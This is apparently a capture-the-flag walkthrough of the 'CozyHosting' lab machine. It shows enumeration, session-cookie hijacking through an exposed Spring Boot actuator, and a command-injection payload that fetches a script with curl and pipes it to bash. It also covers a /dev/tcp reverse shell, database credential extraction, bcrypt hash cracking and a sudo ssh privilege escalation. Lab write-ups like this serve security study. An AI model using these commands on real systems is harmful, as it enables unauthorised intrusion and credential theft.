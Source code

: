 
Starting with nmap 

```
nmap -sC -sV {target ip}
```

We see that ports 22 and 80 are open.

When navigating to the ip in the web-browser we get the domain `cozyhosting.htb`, and we can add the domain to the hosts file.

```
echo "10.10.11.230  cozyhosting.htb" | sudo tee -a /etc/hosts
```

Using ffuf we enumerate the directories,

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://cozyhosting.htb/FFUZ -ic -t 100
```

We find a few useful directories including `login`. Upon accessing the `/login` page, we cannot gain access to the app, but we are able to find that this is a Java Spring Boot application.

We run the ffuf scan again with a Spring Boot wordlist:

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt:FFUZ
-u http://cozyhosting.htb/FFUZ -ic -t 100
```
We find `actuator/mappings` is exposed, we can visit that web address and we find the `actuator/sessions` endpoint is revealing user data. When we visit `/actuator/sessions` the user `kanderson` has a cookie revealed. 

We can use the cookie we found when visiting the `/admin` directory with the developer's console in the `storage` tab. This gets us access to the web application.

We spin up a local server 

```
python -m http.server 7000
```

And we attempt to ping the server by entering the following into the input Hostname/Username, `127.0.0.1/test;curl${IFS}http://10.10.14.49:7000;`

We receive a GET request on the local web server. So we spin up a netcat listener, and create a reverse shell locally.

```
nc -lnvp
```
```
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.49/4444 0>&1' > rev.sh
```

We change the payload to connect to our local netcat listener, while keeping the hostname `127.0.0.1`:

```
test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;
```

Upon sending the request in the webapp, we get a shell on our netcat listener.

Our shell lands in the `/app` directory where we unzip the `cloudhosting-0.0.1.jar` file.

We unzip the file:

```
unzip -d /tmp/app cloudhosting-0.0.1.jar
```
There are database credentials in the file:

```
cat /tmp/app/BOOT-INF/classes/application.properties
```

`postgres:Vg&nvzAQ7XxR`

We connect to postgres and the database

```
$psql -h 127.0.0.1 -U postgres
$\connect cozyhosting
$select * from users;
```

From the admin user we get the hash:

```
hashid $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```

```
hashcat hash_file -m 3200 /usr/share/wordlists/rockyou.txt
```
We get the username:password `josh:ManchesterUnited`

We login to josh with `ssh`, and josh's flag is `/home/josh/user.txt`

Running `sudo -l` we find the file `usr/bin/ssh` can be run as root.

We run: 
```
sudo /usr/bin/ssh -v -o PermitLocalCommand=yes -o 'LocalCommand=/bin/bash'
josh@127.0.0.1
```

Which gives us root access, the flag can then be found at `/root/root.txt`


